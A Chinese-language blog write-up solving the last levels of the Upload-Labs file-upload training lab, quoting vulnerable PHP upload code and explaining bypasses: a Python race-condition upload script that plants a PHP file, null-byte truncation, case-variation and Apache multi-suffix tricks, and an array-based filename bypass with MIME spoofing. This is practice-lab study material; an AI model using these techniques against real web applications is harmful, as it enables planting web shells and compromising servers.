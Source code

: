 ```yaml
---
title: Upload-Labs的最后几道题
categories:
- DROPS
tags:
- 文件上传漏洞
cover: 'https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201119174619.jpg'
date: 2020-11-19 08:47:19
---
```



## Pass-17

​	（windows环境，php版本5.2.17，题号是18题）

源码：

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

​	思路和前面的一样，获取文件信息，移动文件到**upload**文件夹，第12行使用了白名单验证，多了第14行的`rename`函数，看名称就是重命名的函数，所以我们可以在重命名之前访问我们上传的文件，所以这题用到了**上传竞争**，使用`python`脚本不断的向服务器上传文件，然后访问上传的文件，上传的文件中有一句代码`<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>`这段代码执行以后，会创建一个名为`shell.php`里面有一句`<?php phpinfo();?>`的文件。

​	脚本代码

```python
#coding=utf-8
import requests
from multiprocessing import Pool
def CompeteUpload(list):
    url="http://upload-labs/Pass-18/index.php"   #上传页面
    geturl="http://upload-labs/upload/233.php"	 #访问上传文件
    file={'upload_file':('233.php',"<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>",'image/jpeg')}
    data={'submit':'上传'}
    r=requests.post(url=url,data=data,files=file)
    #print "test upload...."
    r1=requests.get(url=geturl)
    if r1.status_code==200:
        print ("upload success!")
if __name__=="__main__":
    pool = Pool(10)
    pool.map(CompeteUpload, range(10000))
    pool.close()
    pool.join()
```

​	第一次用python的我在这里知道了`pip`。这道题因为要不断的上传和访问文件，所以对在线靶场不友好，所以才选择了本地环境解题。完工

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119090033.png)



## Pass-18（失手）

​	18题失手了没有思路，如果使用`include.php`文件包含的话还可以，看了看网上大部分的博客都是敷敷衍衍过去的，找到了一篇稍微有点思路的，使用的是`apache2.2.x的解析漏洞`，这个漏洞的思路就是，apache服务器在解析有多个后缀名的文件时，从最后一个开始向前扫描，如果不认识就跳过，直到遇到一个认识的文件后缀，就把这个文件以这个能识别的后缀解析。

[Apache文件解析漏洞](https://blog.csdn.net/qq_32434307/article/details/79480316)

[apache httpd多后缀解析漏洞复现](https://www.cnblogs.com/yuzly/p/11226377.html)

​	源码中还有一个可以突破的点是同样使用了**重命名函数**，所以应该还是可以使用竞争上传访问得到，但是使用了白名单验证，我实在是没招了所以~~先摸为敬~~。



## Pass-19

（windows环境，php5.2.17，magic_quotes_gpc=Off）

源码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

​	源码第七行使用了**POST**来接受文件的命名，前面有类似题的是使用了**0x00截断上传**，后面也同样是`move_uploaded_file`移动文件的函数，还使用了黑名单验证，方法就很明确，使用**截断上传**。别忘了截断上传需要的特定条件：php版本需要低于`5.3.29`、`magic_quotes_gpc`需要为关闭状态。

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119164220.png)

​	同样是命名为`phpa`方便在十六进制表里修改为`00`

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119162729.png)

​	打开图片把url链接`http://upload-labs/upload/upload-19.php�`修改一下即可。完工

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119164458.png)

​	其实这道题还有一个思路，因为题目使用了**黑名单验证**，分析源码没有设置大小写过滤，所以也可以使用大小写方法通过如`Php`，不演示了。



## Pass-20

（LInux环境，php7.2.21）

源码：

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

​	这道题使用了`MIME`验证和白名单验证。先看第10行使用了`三目运算符`判断`$_POST['save_name']`是否为空，若为空则执行`:`前获取上传文件的名称，若不为空则获取POST中的`save_name`。第11行使用了`is_array`函数判断是否是一个数组，然后使用`explode`截断文件名转换小写并返回数组。也就是说，如果我们POST中的`save_name`是个数组的就可以跳过11行的判断。15行使用`end`函数获取数组中的最后一个元素用于后缀验证。20行把文件名进行拼接：数组**第一个**元素+数组元素**总数-1**的那个元素。

所以我们可以构造一个这样的数组用于绕过：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119170734.png)

​	数组[2]用于绕过白名单，文件名为：`数组[0].数组[1]`，但是数组[1]是空的所以只剩下`数组[0].`（后面有个点）

​	别忘了还要绕过**MIME**

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119172340.png)

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119172415.png)

完工

## 最后

​	Upload labs的20道题大部分完成了，有两道题没完成，但是也学到了不少东西，这些天再抽空写一个总结吧。射射观看。
